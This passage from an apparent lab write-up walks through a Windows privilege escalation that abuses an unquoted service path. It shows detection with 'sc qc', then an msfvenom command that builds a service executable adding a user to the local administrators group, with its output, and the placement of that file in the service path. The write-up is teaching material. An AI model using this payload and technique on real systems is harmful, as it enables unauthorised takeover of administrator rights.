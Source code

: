 
##### Detection
To view the information about services we can use [**sc**](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc742055(v=ws.11)) utility and we use the **qc** command to display the information, in particular ,the **“BINARY_PATH_NAME”** field which we are interested.

![Detection](/assets/img/posts/windows-privesc/task10/detection.png)

We can see that in the "BINARY_PATH_NAME" we have the path **C:\Program Files\Unquoted Path Services\Common Files\unquotedpathservice.exe**. We want to place some malicious file in that path so that Windows will execute it. 

##### Exploitation
So we choose to place a file named **common.exe** in the path **C:\Program Files\Unquoted Path Service**.

We generate the malicious file:
```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 224 bytes
Final size of exe-service file: 15872 bytes
Saved as: common.exe
```

Then we upload the file and copy it in C:\Program Files\Unquoted Path Service:
![Copy File](/assets/img/posts/windows-privesc/task10/copy_file.png)
